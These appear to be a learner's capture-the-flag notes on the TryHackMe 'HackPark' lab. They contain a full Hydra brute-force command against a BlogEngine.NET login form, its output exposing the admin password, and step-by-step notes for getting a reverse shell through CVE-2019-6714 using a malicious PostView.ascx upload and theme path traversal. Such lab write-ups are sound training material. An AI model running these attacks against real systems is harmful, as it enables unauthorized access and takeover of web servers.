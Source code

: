 #it worked, now I just had to figure out which was the right one...
        #only thing - it seems like theres too many to be legitimate...
#apparently the password is 1qaz2wsx but I did not get that at all..

#I looked up some help so I did:
#1 - run the login through burp
#2 - begin the hydra line and include the URL
#3 - use the viewpoert from burp
#4 get credentials:
(kali㉿kali)-[~/THM/practice/hackpark]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.201.164 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=whBv9ZUZARu2sYquSYdczc192OuoMXw1UIkr6GMuuxSj16dK6ey6shzW%2FjIXOXYmHDA1WyTOLq3ZmI9Yti7VQNz%2FvvCKyetvBHVOMoJX9Z2s%2B8%2FURdlxNM7QD4BKNCCVeuuONcSaO4KLICfpQHc%2FC0wC42%2B%2Bjr36vNZ7Rx0mfGR162IGraHTOkGhen01g6Oru7ouwfSIIEJsidTuGIG6lUfht2igZbpJ7nvXPURvslqWQwU4DV2qa7z7ZJlxcogsYLx0zvizu9%2B%2FIEX3WoyMEHAvBjxzA7wzRVC19zjxcVYjiLI31aaDmvzAsHeiPHLxLYU9o52D%2Bcce6xktsd0qjNQtPcOshbVkq03IitskAI36gSZ2&__EVENTVALIDATION=x1CcHyy8tyXpHPNg20Vz9wSnJWbplza4AC%2BOkoijSo%2BGVWEi79dQfzc1cUG29wq%2FaHQoDa24LQZEMv09%2Ftb4JN4VFNN2%2Bulmz8hZe97YoaL6NxrKUYfthVClnsYYxj8yEvgxh%2FQf9ydtolOQg78RKxQsSLrTuXA0JbeDMXLoijvhw05N&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-02-08 16:25:10
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.201.164:80/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=whBv9ZUZARu2sYquSYdczc192OuoMXw1UIkr6GMuuxSj16dK6ey6shzW%2FjIXOXYmHDA1WyTOLq3ZmI9Yti7VQNz%2FvvCKyetvBHVOMoJX9Z2s%2B8%2FURdlxNM7QD4BKNCCVeuuONcSaO4KLICfpQHc%2FC0wC42%2B%2Bjr36vNZ7Rx0mfGR162IGraHTOkGhen01g6Oru7ouwfSIIEJsidTuGIG6lUfht2igZbpJ7nvXPURvslqWQwU4DV2qa7z7ZJlxcogsYLx0zvizu9%2B%2FIEX3WoyMEHAvBjxzA7wzRVC19zjxcVYjiLI31aaDmvzAsHeiPHLxLYU9o52D%2Bcce6xktsd0qjNQtPcOshbVkq03IitskAI36gSZ2&__EVENTVALIDATION=x1CcHyy8tyXpHPNg20Vz9wSnJWbplza4AC%2BOkoijSo%2BGVWEi79dQfzc1cUG29wq%2FaHQoDa24LQZEMv09%2Ftb4JN4VFNN2%2Bulmz8hZe97YoaL6NxrKUYfthVClnsYYxj8yEvgxh%2FQf9ydtolOQg78RKxQsSLrTuXA0JbeDMXLoijvhw05N&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
[80][http-post-form] host: 10.10.201.164   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-02-08 16:25:39

#password is 1qaz2wsx










### compromising the machine ###
#next goal is therefore to gain initial access

#the version of the BlogEngine.NET is 3.3.6.0 and the vulnarebility is CVE-2019-6714

##METHOD:
#1 set the attack address + port
#2 set up a reverse TCP listener (nc?)
#3 its 'uploaded' by clicking on what looks like an open file in the toolbar
        #must be uploaded as PostView.ascx
#4 upload to <ip>/admin/app/editor/editpost.cshtml (reached by creating new post on the engine)
#5 file will be located in /App_Data/files directory
#6 vuln is triggered by accessing the base URL for the blog with a theme override:
        #<ip>/?theme=../../App_Data/files
